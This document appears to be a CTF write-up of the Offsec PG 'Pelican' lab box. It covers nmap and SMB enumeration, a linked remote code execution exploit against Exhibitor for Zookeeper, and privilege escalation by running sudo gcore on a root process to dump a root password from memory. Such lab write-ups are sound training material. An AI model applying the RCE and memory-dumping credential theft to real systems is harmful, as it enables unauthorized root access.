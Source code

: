 ```yaml
---
title: Writeup - Offsec PG Pelican
date: 2023-10-02  
author: kei5uke
description: Writeup for PG Pelican 
tags:
  - linux
  - writeup
---
```


# Pelican

# **Enumeration with Nmap**

```bash
┌──(root💀kali)-[~/perican]
└─# nmap -p- -sC -sV 192.168.246.98 -T4 -oN nmap.out
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 01:05 EEST
Warning: 192.168.246.98 giving up on port because retransmission cap hit (6).
Stats: 0:09:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 01:15 (0:00:02 remaining)
Nmap scan report for 192.168.246.98
Host is up (0.047s latency).
Not shown: 65495 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  Eetbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
41665/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-10-01T22:15:28
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-10-01T18:15:31-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 600.31 seconds
```

# Enumerate SMB

```bash
┌──(root💀kali)-[~]
└─# smbclient \\\\192.168.246.98\\IPC$                                                                                   1 ⨯
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```

No interesting findings in SMB.


# Enumerate HTTP (8080)

![Screenshot 2023-10-02 at 01.26.03.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_01.26.03.png)

# Exploit the Service

I searched for an exploit for Exhibitor for Zookeeper and found an interesting note.

[Exhibitor Web UI 1.7.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48654)

![Screenshot 2023-10-02 at 02.19.01.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.01.png)

I added the necessary part in the java.env script and committed the setting.

![Screenshot 2023-10-02 at 02.19.21.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.21.png)

# Low Privilege Shell

![Screenshot 2023-10-02 at 02.34.36.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.34.36.png)

I successfully got the shell.

# Privilege Escalation

```bash
charles@pelican:/opt/zookeeper$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

The command `/usr/bin/gcore` is allowed to run as root apparently.

[gcore - GTFOBins](https://gtfobins.github.io/gtfobins/gcore/)

The gcore command generates a core file (dump file) of a running process. It can be used to retrieve sensitive information if the process is run by root.  
It can be a way to retrieve sensitive information if the process is run by root.

```bash
root       527  0.0  0.0   2276    72 ?        Ss   18:02   0:00 /usr/bin/password-store
```
I found an interesting process:

```bash
sudo /usr/bin/gcore 527
```
I got the dump.

```bash
charles@pelican:~$ strings core.527
strings core.527
CORE
password-store
/usr/bin/password-store 
CORE
CORE
/usr/bin/passwor
////////////////
LINUX
...
```
I analyzed the strings.

```bash
001 Password: root:
ClogKingpinInning731
```
I found interesting text. It could be root password.

![Screenshot 2023-10-02 at 02.45.22.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.45.22.png)

`sudo su root -p`  and paste the password and got the root shell.

# Note
After taking a break from the Linux CTF challenges, diving into this one brought back the familiar excitement of the challenge. It took some effort to track down a shell. But it turned out that the vulnerability had been hiding in plain sight on the web page all along.  
In the enumeration stage, I missed some important information because the version of the vulnerability didn't seem to match. This remined me to stay vigilant and pay attention to every detail.  
